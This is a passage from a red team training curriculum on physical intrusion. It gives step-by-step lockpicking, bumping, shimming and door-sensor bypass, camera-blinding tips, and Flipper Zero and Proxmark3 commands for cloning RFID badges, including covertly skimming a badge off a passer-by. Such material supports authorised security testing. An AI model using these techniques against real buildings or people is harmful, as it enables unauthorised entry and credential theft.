# PHASE 6: SPECIAL OPERATIONS

**Author:** Sagar Biswas<br/>
**Version:** v0.0.0 · 2027 Edition<br/>

<div align="right">

**Keys, people, and qubits. Everything is a vulnerability.**

</div>

**Track:** Parallel (run alongside Phase 4-5) | **Duration:** 6-18 months (ongoing) | **Difficulty:** Advanced to Elite
**Hours/Week:** 40+ | **Prerequisites:** Phase 4 complete | **Completion Rate:** Top 0.0001%

---

## TABLE OF CONTENTS

1. [Why Phase 6 Exists](#why-phase-6-exists)
2. [Section 1: Physical Red Team](#section-1-physical-red-team)
   - 1.1 Lockpicking: The Foundational Skill
   - 1.2 Bump Keys and Impressioning
   - 1.3 Bypass Tools: Faster Than Picking
   - 1.4 Electronic Access Control Bypass (Wiegand + OSDP)
   - 1.5 Camera Bypass and Visual Surveillance Defeat
   - 1.6 RFID / HID Cloning (Legacy + Modern Readers)
   - 1.7 Badge Visual Cloning
   - 1.8 Hardware Implants: LAN Turtle + EDR-Evasive Callbacks
   - 1.9 Tailgating and Pretext Entry
   - 1.10 Drone Recon: Full Curriculum (Optical + Thermal)
3. [Section 2: Social Engineering](#section-2-social-engineering)
   - 2.1 The Psychology Framework: Six Principles of Influence
   - 2.2 Elicitation Techniques
   - 2.3 Vishing: Voice Phishing (Full Scripts + Objection Handling)
   - 2.4 Email Phishing Construction
   - 2.5 USB Drop Attacks
   - 2.6 In-Person SE: Non-Verbal and Body Language
   - 2.7 Pretext Abort Signals and Recovery
   - 2.8 Persona Development and Identity Legends
   - 2.9 SE Campaign Planning and Metrics
4. [Section 3: Quantum Computing 2027](#section-3-quantum-computing-2027)
   - 3.1 The Threat Model
   - 3.2 SNDL Collection Infrastructure
   - 3.3 PQC Migration Attack: Downgrade
   - 3.4 ML-KEM Timing Side-Channel Analysis
   - 3.5 Cryptographic Inventory Audit Script
   - 3.6 Operator PQC OPSEC
   - 3.7 Lab Path for Beginners
5. [Section 4: Red Team Operations](#section-4-red-team-operations)
   - 4.1 Pre-Engagement Scoping Questionnaire
   - 4.2 Rules of Engagement
   - 4.3 Report Structure and Writing
   - 4.4 Debrief Methodology
   - 4.5 Purple Team and Re-Test
   - 4.6 Threat-Intelligence-Led Testing: TIBER-EU and CBEST
6. [Section 5: Post-Engagement Cleanup](#section-5-post-engagement-cleanup)
   - 5.1 Digital Footprint Removal (Windows + Sysmon)
   - 5.2 Active Directory Cleanup
   - 5.3 Physical Cleanup Checklist
   - 5.4 Log Clearing Decision Tree
7. [Section 6: TSCM: Finding Bugs to Plant Them](#section-6-tscm)
   - 6.1 Surveillance Device Types and Signatures
   - 6.2 Detection Methodology: Step by Step
   - 6.3 RF Explorer Practical Walkthrough
   - 6.4 Lab Exercise
   - 6.5 Offensive Planting Principles
8. [Section 7: ADCS Attack Paths](#section-7-adcs-attack-paths)
   - 7.1 What ADCS Is and Why It Matters
   - 7.2 ESC1: Misconfigured Certificate Template
   - 7.3 ESC4: Template Write Permission Abuse
   - 7.4 ESC8: NTLM Relay to ADCS HTTP Endpoint
   - 7.5 Certipy Full Workflow
9. [Section 8: Full Operational Scenario: Operation Silent Ledger v2](#section-8-operation-silent-ledger-v2)
10. [Phase 6 Resource Reference](#phase-6-resource-reference)
11. [Phase 6 Competency Checklist](#phase-6-competency-checklist)

---

## WHY PHASE 6 EXISTS

Every phase before this one lives in a terminal window. Phase 6 is what happens when the terminal is not enough.

The GREATEST operators do not wait for a phishing link to land. They walk in through the front door, plug in their own hardware, sit down at a machine nobody watches, and leave before the coffee gets cold. They understand that the strongest firewall in the world means nothing if a person holds the door open. They understand that RSA-4096 will be a liability within a decade and they are already collecting the traffic to prove it. They understand that a red team report nobody can read is a red team that never happened.

This phase covers eight domains that separate top-0.0001% operators from everyone else:

1. **Physical Red Team** -- getting inside the building before getting inside the network
2. **Social Engineering** -- the human attack surface, complete methodology
3. **Quantum Computing 2027** -- the cryptographic threat horizon and how to exploit the transition period
4. **Red Team Operations** -- scoping, ROE, reporting, debrief, re-test, TIBER-EU
5. **Post-Engagement Cleanup** -- erasing the footprint completely, including Sysmon artifacts
6. **TSCM** -- understanding surveillance detection to improve offensive planting
7. **ADCS Attack Paths** -- Active Directory Certificate Services exploitation: the dominant 2027 escalation vector
8. **Full Operational Scenario** -- everything chained into one operation including cloud lateral movement

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

## SECTION 1: PHYSICAL RED TEAM

> **Mindset before tools:** Physical security is a people problem dressed as a technology problem. Locks, badges, and cameras are all defeated by confidence, context, and preparation. The technical tools matter. The performance matters more.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 1.1 LOCKPICKING: THE FOUNDATIONAL SKILL

**Why this comes first:** Before RFID cloners, before implants, before tailgating, there are doors. Locked doors. Most organizations spend thousands on access control systems and leave the door itself protected by a $30 wafer lock from 2009. Lockpicking is legal to practice in most jurisdictions on locks you own. Own locks. Practice daily.

#### Understanding How Locks Work

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

```
PIN TUMBLER LOCK (most common: deadbolts, padlocks, offices):

  Plug (rotating cylinder) sits inside the Shell (fixed housing)

  Spring --> Driver Pin --> Key Pin --> Keyway

  At rest:         Driver pins cross the Shear Line: plug cannot rotate
  With correct key: all key pins pushed to exact height:
                    shear line cleared: plug rotates: lock opens

  With picks: we manually lift each pin stack to the shear line
              one at a time using TENSION + PICK

  Shear line = the gap between plug and shell

WAFER LOCK (filing cabinets, cheap padlocks, older vehicles):
  Flat wafers instead of pin stacks
  All wafers must align with shell groove: plug rotates
  Easier to pick than pin tumbler; defeat with a jiggle key or rake

DISC DETAINER (Abloy, some Medeco):
  Rotating discs with notches: all must align
  Defeated by specialized disc detainer picks (Sparrows makes one)
  Harder: avoid for beginners; address in month 4+

TUBULAR LOCK (vending machines, bike locks, server cages):
  7 or 8 pins arranged in a circle around a tubular plug
  Defeated by a tubular lock pick ($15-25 on Amazon): insert, apply tension,
  rotate: pins set simultaneously in seconds
  Learn this: server room cabinets and comms closets use these constantly
```

#### The Beginner Kit

```
STARTER KIT ($35-60):
  Sparrows Reload Kit (sparrowslockpicks.com): best beginner value
    Contents:
    - Hook 1 (standard hook pick): workhorse, handles 80% of standard pins
    - Offset Diamond: tight keyways, wafer locks
    - City Rake (snake rake): fast raking on cheap locks
    - Short Hook: deep chambers, narrow keyways
    - Tension bars (BOTH included):
        TOK (top-of-keyway): less binding, more feedback: LEARN ON THIS
        BOK (bottom-of-keyway): more control, cleaner SPP for experienced hands

  Practice locks (buy separately, in order):
    1. Master Lock No.3 ($8):    start here, 4-pin standard, very tolerant
    2. Brinks 40mm ($10):        slightly tighter tolerances, more feedback
    3. Master Lock 140 ($12):    5-pin, brass, teaches real feedback
    4. ABUS 55/40 ($15):         euro-quality, real sharpness required
    5. Mul-T-Lock Junior ($25):  intro to security pins (spool drivers)

MID-LEVEL KIT ($80-150):
  Multipick Kronos (multipick.com): German machined, professional tolerance
  Peterson Gem hook: best tactile feedback pick made
  SouthOrd PXS-14 set: full range of hooks and rakes
  Sparrows Disc Detainer Pick: for Abloy-style locks
  Sparrows Tubular Lock Pick: server room + vending machine access
```

#### Single Pin Picking (SPP): Step by Step

```
SETUP:
  1. Insert TOK or BOK tension bar into top/bottom of keyway
  2. Apply LIGHT rotational tension: the weight of one finger, no more
     Too much tension: pins bind too hard, will not set, plug will not move
     Too little tension: set pins drop back, no progress
  3. Insert hook pick ABOVE the tension bar

THE METHOD:
  Step 1: Find the binding pin
    Apply light tension: probe each pin from back (rear of keyway) to front
    Binding pin = feels stiff, resists upward movement, does not spring back freely
    (Manufacturing tolerances make one pin bind first under tension: physics, not magic)

  Step 2: Set the binding pin
    Lift binding pin slowly until you feel or hear a subtle CLICK
    or a micro-rotation in the plug (fraction of a degree)
    That pin is now SET at the shear line
    DO NOT release tension or it falls back

  Step 3: Find the next binding pin
    A different pin is now the tightest tolerance under tension
    Repeat: probe, feel the stiffer one, lift to set

  Step 4: Continue until all pins set
    Plug rotates: lock opens

FEEDBACK SIGNALS TO LEARN:
  Set pin: slight click + micro plug rotation + pin feels "springy" at the top
  Overset pin: pushed past shear line: blocks rotation: back off slightly,
               reduce tension fractionally until pin drops to correct height
  False set: plug rotated further than expected but not fully open
             You hit a security pin (spool or serrated driver)

SECURITY PINS: How to Handle Them:
  Spool drivers: waist-shaped: give a false set at the spool waist
  Serrated drivers: multiple false sets per pin as each serration catches

  Both feel like: pin seems to set, plug rotates a bit, then stops
  Fix: back off tension SLIGHTLY (do not release): spool/serration clears:
       pin drops to true shear line: continue to next pin
  Practice lock for this: Mul-T-Lock Junior, Master Lock 410

PRACTICE BENCHMARKS (realistic timeline):
  Week 1:  Open Master No.3 via raking in under 2 minutes
  Week 2:  Open Master No.3 via SPP in under 5 minutes
  Week 4:  Open 5-pin standard lock (Master 140) via SPP in under 3 minutes
  Month 3: Open lock with spool security pins in under 5 minutes
  Month 6: Open ABUS 55/40 (euro-quality) consistently in under 4 minutes
  Month 9: Open disc detainer lock with dedicated pick in under 8 minutes
```

#### Raking: Fast Entry on Low-Security Locks

```
WHEN TO RAKE:
  Time pressure + low-security target (filing cabinets, interior offices)
  Raking is faster but louder and less precise than SPP

TECHNIQUE:
  Insert rake pick to the rear of the keyway
  Apply light tension (same weight as SPP)
  Scrub rake in and out in varied motion while slightly varying tension
  Pins randomly align as the rake passes over them: lock opens

  City Rake (snake): most versatile, works on Master-style locks, first rake to learn
  Bogota Rake: aggressive, fast but louder
  Worm Rake: gentle, excellent for wafer locks

NOISE MANAGEMENT:
  Raking on a padlock: quiet.
  On a deadbolt: the scrubbing transmits through the door.
  In an active engagement: rake secondary locks (filing cabinets, server room
  padlocks). SPP the main entry door.
```

---

### 1.2 BUMP KEYS AND IMPRESSIONING

#### Bump Keys

```
WHAT IT IS:
  A specially cut key (all cuts at maximum depth) inserted one notch out,
  then struck sharply to transmit kinetic energy to all pins simultaneously.
  The pins momentarily jump past the shear line: apply rotational pressure
  at that exact moment: plug rotates: lock opens.

  Works on: pin tumbler locks (deadbolts, padlocks, knob locks)
  Does NOT work on: Medeco, Mul-T-Lock, high-security patents,
                    disc detainer, most electronic locks

WHAT YOU NEED:
  Bump key for the keyway you are targeting:
    Kwikset keys work on Kwikset keyways (most US residential)
    Schlage C keys work on Schlage C keyways (US commercial standard)
    Yale keys for Yale keyways
  Source: buy pre-cut bump key sets from Amazon, eBay, or any locksmith supplier
  Striking tool: rubber mallet, purpose-built bump hammer, or the heel of your palm

BUMP KEY TECHNIQUE:
  Step 1: Insert bump key all the way in, then pull back ONE notch
  Step 2: Apply light rotational tension with your other hand or a tension bar
  Step 3: Strike the key head sharply with the rubber mallet
  Step 4: The energy transmits through the key cuts: all driver pins jump
  Step 5: At the microsecond of maximum jump: your rotational pressure turns the plug

  Timing is everything. Practice: strike, tension. Strike, tension.
  Not simultaneous: tension comes fractionally before the strike lands.

PRACTICE SEQUENCE:
  Week 1: Cut or buy bump key matching your practice lock keyway
  Week 2: Open Master No.3 with bump key consistently in under 10 strikes
  Month 2: Open a 5-pin lock with security pins via bump in under 20 strikes
  Note: bump key does NOT work reliably on security pins: for those, pick.

FIELD NOTES:
  Bump key entry takes 5-30 seconds once you have the right key
  Sound: a sharp click or thunk from the strike: not covert but brief
  Works: on most North American residential and light commercial locks
  Does NOT work: SFIC (Small Format Interchangeable Core), Medeco, Abloy
```

#### Impressioning: Making a Key Without a Key

```
WHAT IT IS:
  Insert a blank key into the target lock, apply tension and movement to
  create marks on the blank where the pins bind, then file those marks
  to the correct depth. Repeat until the key works.

  Result: a working key for the target lock that you never had.

  Advantage over picking: you now have a key. Walk back in any time.
  Required time: 20-90 minutes for a competent practitioner.

WHAT YOU NEED:
  Correct blank: must fit the keyway exactly
  Key vise or milling clamp: holds blank while filing
  Impressioning file (or triangular jeweler file): 6-8 inch, very fine cut
  High-polish finish on blank (essential): marks must be visible
    Achieve by rubbing blank on cardboard, leather strop, or polishing compound
  Magnifier or loop (10x): to see the pin marks

THE METHOD:
  Step 1: Polish blank to a mirror finish (marks appear as silver shines)
  Step 2: Insert blank into lock
  Step 3: Apply light rotational tension while moving blank in/out and side to side
           (the "jiggling motion": creates binding marks at each pin position)
  Step 4: Remove blank; examine under magnifier
           Bright shiny marks = where driver pins contacted the blank under tension
  Step 5: File down those bright marks to a slight V-cut (one file stroke each)
  Step 6: Re-polish, re-insert, repeat
  Each cycle: the key gets closer to the correct depth at each cut position

  After 10-30 cycles: key turns the lock.

PRACTICE: Buy a cheap padlock and a matching blank; practice until consistent.
          r/lockpicking belt ranking includes impressioning as an advanced skill.
          Do not attempt in field before achieving sub-30-minute consistency in lab.
```

---

### 1.3 BYPASS TOOLS: FASTER THAN PICKING

```
Not all locks need to be picked. Most can be bypassed faster.
Learn these in order: use the simplest one that works.

SHIMS (padlocks):
  Thin aluminum shim inserted between shackle and body
  Defeats spring-loaded shackle mechanisms on most padlocks under $40
  Cut your own from a soda can: 2cm x 4cm strip, fold into J-shape
  Insert shim into shackle slot, push down, pull shackle: open

  Works on: Master No.1, No.3, most hardware-store padlocks
  Does NOT work on: double-locking padlocks (Mul-T-Lock, ABUS Granit)
  Speed: 10-20 seconds once practiced

LOIDING / CARDING (spring-bolt latches):
  Credit card, hotel key card, or mylar strip
  Insert card between door and frame at the latch
  Push card toward the latch bolt while pressing on the door: latch retracts
  Works on: interior office doors without a deadbolt, hotel bathroom doors,
             storage rooms, most interior spring-latch doors
  Does NOT work on: deadbolts, rim latches with anti-loid plates, strike boxes
  Speed: 5-15 seconds

UNDER-DOOR TOOL (UDT):
  For doors that open TOWARD you with lever handles (inward-opening lever doors)
  Tool: Under-Door Tool + Long-reach hook (covertinstruments.com, ~$40)
  Slide UDT under door: hook loops over the lever handle on the other side
  Pull down on tool from your side: lever depresses: door opens

  Works on: most interior lever-handle doors
  Does NOT work on: outward-opening doors, knob handles, alarmed handles
  Speed: 10-30 seconds
  Why it matters: internal office doors in IT rooms, server rooms, supply rooms
                  often have lever handles and no deadbolt

AIR WEDGE (opening a gap for tools):
  Inflatable wedge inserted at the top corner of a door, pumped up to create
  a small gap between door and frame
  Use: pass a long-reach tool through the gap to manipulate interior hardware
  Combined with: UDT, or a wire hook to press an interior push bar / panic bar
  Source: Professional Air Wedge Kit (~$35 on Amazon); also sold as "car door wedge"
  Field note: use at the top corner: less visible and less stress on the frame

WARDED LOCKS (old padlocks, gates, storage units):
  Simple wards inside the keyway block wrong keys
  Defeat: warded skeleton key set ($10): keys with minimal material that clear all wards

GRAVITY / SHIM COMBINATION:
  Some padlocks open when shackle is pressed DOWN while shim is inserted
  Test both: shackle UP and shackle DOWN during shimming attempt
```

---

### 1.4 ELECTRONIC ACCESS CONTROL BYPASS

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

#### PATH 1: REQUEST-TO-EXIT (REX) SENSOR MANIPULATION

```
What it is:
  Every access-controlled door has a REX sensor on the INSIDE to let people exit freely.
  REX sensors detect motion or use a push button: when triggered, they signal the
  controller to momentarily unlock the door.

  Types of REX sensors:
    Passive Infrared (PIR): motion-triggered, mounted above door interior
    Request button: push-to-exit button on interior wall
    Crash bar: physical push bar connected to REX circuit
    Dual technology: PIR + microwave for higher security

Bypass technique: PIR REX manipulation from exterior:
  If there is a gap under the door (even 1cm): slide a thin stiff rod or
  Slim Jim tool under the door: wave it in front of the PIR sensor
  The PIR detects motion: triggers REX: door unlocks momentarily

  Tools: piece of coat hanger wire, a "lasso tool" (wire with a loop end)
  Timing: some systems have a short window (2-5 seconds): have your hand on the handle

  Works on: many interior-to-exterior access control doors with standard PIR REX
  Does NOT work on: doors with no gap, dual-tech REX (needs both motion + microwave),
                     doors with REX sensors mounted too high to reach
```

#### PATH 2: DOOR CONTACT DEFEAT

```
What it is:
  Many alarmed doors use a magnetic door contact: a magnet on the door and
  a reed switch on the frame. When the door opens, the circuit breaks: alarm triggers.

Bypass:
  Apply a strong external magnet (neodymium, 20-50mm, ~$8 from Amazon) to the
  reed switch on the frame BEFORE opening the door.
  The reed switch stays closed (magnet holds it) even as the door opens.
  No circuit break: no alarm signal.

  Must know: which side the reed switch is on (usually frame, at door edge)
  Visual identification: small rectangular sensor, same color as frame, at top corner
```

#### PATH 3: ELECTRIC STRIKE vs MAGLOCK IDENTIFICATION

```
Fail-safe (power OFF = unlocked): used on fire exit doors
  Power cut = door opens.
  Attack: kill power to the door (breaker room, cut CAT5 to controller)

Fail-secure (power OFF = locked): standard security doors
  Power cut = door stays locked.
  Attack: credential-based (RFID clone) or physical bypass (REX, shim, UDT)

Identify which type at a glance:
  Maglock (large metal plate on frame + metal plate on door): usually fail-safe
  Electric strike (recessed in the strike box): most are fail-secure
```

---

### 1.5 CAMERA BYPASS AND VISUAL SURVEILLANCE DEFEAT

```
UNDERSTAND THE SYSTEM BEFORE DEFEATING IT

Camera types in corporate environments:
  Fixed IP cameras: cover a defined zone, no movement
  PTZ (Pan-Tilt-Zoom): operator-controlled or auto-tracking, wider coverage
  Fisheye (360 degrees): ceiling mount, covers entire room with distortion
  ANPR (Automatic Number Plate Recognition): at perimeter, reads plates

Coverage gap analysis (what every camera has):
  Dead zones: the area directly beneath a ceiling-mount camera
               is usually NOT covered (camera points outward and downward)
  Mounting angle: most cameras cover a 90-110 degree horizontal field of view
                  Standing at the extreme left or right edge of the frame = partial cover
  Blind corners: hallway intersections, doorway frames, equipment blocking line of sight
```

#### Pre-Engagement Camera Recon

```
  1. Google Street View + satellite view: spot exterior cameras (positions, angles)
  2. During pretext visit (delivery, job interview, vendor meeting):
     walk the target area noting camera positions, types, mounting height
  3. Drone aerial photo: overhead view identifies camera placement on rooflines
  4. LinkedIn job postings for "physical security" or "security guard" often list
     the camera manufacturer (Milestone, Genetec, Hanwha, Axis): helps identify capabilities
```

#### Camera Defeat Techniques

```
Technique 1: Dead Zone Navigation (cost: $0):
  Most effective. Walk directly beneath ceiling-mount cameras.
  Move along walls (cameras point into the room, not straight down along the wall).
  Avoid open-floor paths that point directly at camera faces.

Technique 2: Physical Obstruction:
  Post-It note, sticker, or smear on the lens during access.
  Works on: fixed cameras in unmonitored locations (storage areas, server rooms)

Technique 3: Temporary IR Blinding:
  Concept: cameras use IR LEDs for night vision. Flooding IR into the lens
  saturates the sensor: image becomes white, unreadable.
  Tool: IR LED flashlight (850nm, $15-30 on Amazon) pointed directly at the lens
  Effective range: 3-8 meters for most IR flashlights vs. standard IP cameras
  Limitation: daylight color cameras are not using IR: this does not blind them
              in daylight. Use at night or in low-light server rooms.

Technique 4: Locating Camera Lenses in Dark Spaces:
  In low-light areas (server rooms, comms closets): use a smartphone front-facing
  camera (which typically lacks an IR filter): point IR flashlight at suspected
  camera locations while viewing through front camera.
  Camera lenses reflect IR distinctly as a bright white dot.

Technique 5: Deliberate Cover Story (most field-realistic):
  Do not defeat the camera. Look like you belong.
  Camera footage is only evidence if someone reviews it.
  If your pretext holds, the footage shows an authorized person doing their job.
  The performance is the bypass.

WHAT NOT TO DO:
  Spray-painting cameras, cutting cables, physically removing cameras: triggers
  immediate investigation and escalates to police. Only done in fiction.
  Laser pointers: illegal to aim at cameras in most jurisdictions + triggers incident.
```

---

### 1.6 RFID / HID CLONING (LEGACY + MODERN READERS)

#### How RFID Access Cards Work

```
RFID BASICS:
  The card contains a microchip and an antenna (the coil you see when held to light).
  The reader emits an RF field: the card antenna harvests energy from the field:
  powers the chip: chip transmits its unique ID number: reader grants/denies access.

FREQUENCIES (determines attack tools):
  125kHz (LF): HID Prox, EM4100, EM4200, Indala
    These are LEGACY and common in older buildings (pre-2010 installs).
    Unencrypted: the card broadcasts its ID to any reader, including yours.
    ATTACK: trivially clonable with Flipper Zero or Proxmark3.

  13.56MHz (HF): MIFARE Classic, MIFARE DESFire, HID iCLASS, HID SEOS
    Higher security: some are encrypted.
    ATTACK: varies by card type (see table below).

READER IDENTIFICATION:
  Look at the reader itself. Most have the manufacturer and model visible.

  HID Global readers:
    HID Prox (gray/white, Wiegand output, 125kHz): CLONABLE
    HID iCLASS (black, 13.56MHz): PARTIALLY clonable (older cards with no key)
    HID multiCLASS SE (supports BOTH 125kHz and 13.56MHz simultaneously):
      The multiCLASS SE reads whichever card the user presents.
      OLD CARDS from a building migrating away from 125kHz still work on it.
      ATTACK: if any 125kHz HID Prox cards are still in circulation in the building,
      your T5577 clone will work on the multiCLASS SE reader even if the building
      "thinks" it has upgraded. This is the most common gap.

  Allegion/Schlage readers:
    Schlage AD-Series: 13.56MHz, MIFARE DESFire EV1/EV2
  
  STid readers (European): OSDP-capable (see OSDP section below)
```

#### RFID Attack Matrix

```
+-------------------+----------+------------------+---------------------+---------------------+
| Card Type         | Freq     | Protocol         | Attack Feasibility  | Tool                |
+-------------------+----------+------------------+---------------------+---------------------+
| HID Prox          | 125kHz   | Wiegand          | TRIVIAL             | Flipper Zero        |
| EM4100/EM4200     | 125kHz   | EM               | TRIVIAL             | Flipper Zero        |
| Indala            | 125kHz   | Wiegand          | TRIVIAL             | Proxmark3           |
| MIFARE Classic 1K | 13.56MHz | ISO14443A        | FEASIBLE (weak key) | Proxmark3 autopwn   |
| MIFARE Classic 4K | 13.56MHz | ISO14443A        | FEASIBLE            | Proxmark3 autopwn   |
| iCLASS (no key)   | 13.56MHz | iCLASS           | FEASIBLE            | Proxmark3 iclass    |
| iCLASS SE         | 13.56MHz | iCLASS SE        | HARD (SIO-encrypted)| Research only       |
| HID SEOS          | 13.56MHz | SEOS             | NOT FEASIBLE (2027) | No known tool       |
| MIFARE DESFire EV2| 13.56MHz | ISO14443A        | NOT FEASIBLE        | No known tool       |
| MIFARE Ultralight | 13.56MHz | ISO14443A        | FEASIBLE (no auth)  | Flipper Zero        |
+-------------------+----------+------------------+---------------------+---------------------+
```

#### Flipper Zero: Practical Walkthrough (HID Prox)

```
EQUIPMENT:
  Flipper Zero ($200): handles 125kHz and 13.56MHz cards + sub-GHz RF + IR
  Proxmark3 RDV4 ($350): deeper analysis, better 13.56MHz attack capability
  T5577 blanks ($1-2 each): write-once cards for cloning 125kHz credentials
  Magic Gen2 cards: writable 13.56MHz MIFARE Classic blanks

CAPTURE HID PROX CREDENTIAL:
  Method 1: Direct read (you have the card):
    Flipper Zero: 125kHz > Read
    Hold card to Flipper Zero back for 2-3 seconds
    Result shows: Facility Code (FC) + Card Number (CN)
    Example: FC: 117 / CN: 15432
    Save: tap Save, name it (e.g., "target_badge")

  Method 2: Long-range covert capture:
    Flipper Zero with external antenna module ($25): read range extends to 8-10cm
    Proxmark3 with external LF antenna: read range up to 30cm in field conditions
    Approach: badge reader near shoulder height: brush past target holding device
    against their hip or bag pocket where the badge lives
    Note: HID Prox credentials are broadcast in the clear by the card at any time.
    You do not need to be at a reader. You need to be within read range of the card.

WRITE CLONE TO T5577:
  On Flipper Zero: go to saved credential: Write: Write to T5577 blank
  Wait for write confirmation: test on a reader of the same type

  Verify: the T5577 now broadcasts the same FC:CN as the original card.
  The access control panel sees the correct credential and grants access.

PROXMARK3: DEEPER ANALYSIS:

  Install community firmware (iceman fork - most feature-complete):
  git clone https://github.com/RfidResearchGroup/proxmark3
  cd proxmark3 && make clean && make all

  Read 125kHz HID Prox:
  pm3 --> lf hid reader

  Output: HID Prox 26-bit FC:117 CN:15432

  Clone to T5577:
  pm3 --> lf hid clone --fc 117 --cn 15432

  For MIFARE Classic (13.56MHz):
  pm3 --> hf mf autopwn     (recovers all sector keys via nested attack)
  pm3 --> hf mf dump        (dumps all 16 sectors to file)
  pm3 --> hf mf restore     (writes dump to a Magic Gen2 blank card)
```

#### OSDP: The 2027 Access Control Reality

```
WHAT OSDP IS:
  Open Supervised Device Protocol (OSDP) is the modern replacement for Wiegand.
  Developed by the Security Industry Association (SIA).
  OSDP v2 (current standard) adds AES-128 encrypted channel between reader and panel.

WHY IT MATTERS FOR ATTACKERS:

  Wiegand (legacy):
    Reader sends card data to panel over two unencrypted wires (D0 and D1).
    Anyone who taps these wires captures the credential in plaintext.
    This is why Wiegand has been the attacker's favorite for 30 years.

  OSDP v2 with AES-128 Secure Channel:
    Reader and panel negotiate an AES-128 encrypted session at startup.
    Card data is encrypted in transit: tapping the cable gives you ciphertext.
    The D0/D1 Wiegand tap that works on legacy systems does NOT work here.

HOW TO IDENTIFY OSDP vs WIEGAND IN THE FIELD:

  Wiegand indicators:
    Cable from reader has 2 data wires (green + white, or D0 + D1 labeled)
    plus power and ground = 4 wire minimum
    Reader uses a standard pigtail with color-coded bare wire ends
    Reader markings often say: "Wiegand" or show "WG" in model number

  OSDP indicators:
    Cable is typically RS-485 (2-wire differential: A and B lines)
    Reader has an RJ45 or screw terminal connection instead of pigtail
    Reader model includes "OSDP" in the name or spec sheet
    STid, Bosch, HID VertX, Allegion AP Series: all OSDP-capable

  Field recon tip:
    Pull up the manufacturer + model number from the reader during a pretext visit.
    Search it before the engagement: "READER_MODEL OSDP" in Google.
